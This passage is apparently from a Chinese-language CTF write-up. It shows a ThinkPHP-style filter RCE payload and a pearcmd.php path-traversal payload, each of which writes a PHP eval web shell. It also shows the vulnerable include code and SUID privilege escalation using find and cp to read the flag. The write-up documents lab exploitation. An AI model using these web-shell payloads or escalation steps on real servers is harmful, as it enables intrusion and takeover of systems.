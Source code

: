 ```
_method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo '<?php eval($_POST['cmd']);?>' > /var/www/public/1.php
```

蚁剑连上，flag是没有权限的

![image-20240319211124078](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240319211124078.png)

尝试suid进行提权

```
find / -type f -perm -4000 2>/dev/null
```

![image-20240319211424296](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240319211424296.png)

利用cp

/dev/stdout就是标准输出

```
cp /flag_dd3f6380aa0d /dev/stdout
```

![image-20240319211510379](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240319211510379.png)

### 4-复盘

给了源码

```php
<?php 
        if (isset($_GET['page'])) {
          $page ='pages/' .$_GET['page'].'.php';

        }else{
          $page = 'pages/dashboard.php';
        }
        if (file_exists($page)) {
          require_once $page; 
        }else{
          require_once 'pages/error_page.php';
        }
 ?>
```

存在目录穿越漏洞，利用pearcmd.php（和week3的include相似）

payload

```
page=../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_POST['a'])?>+/var/www/html/1.php
```

接着进行suid提权

![image-20240321120153032](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240321120153032.png)

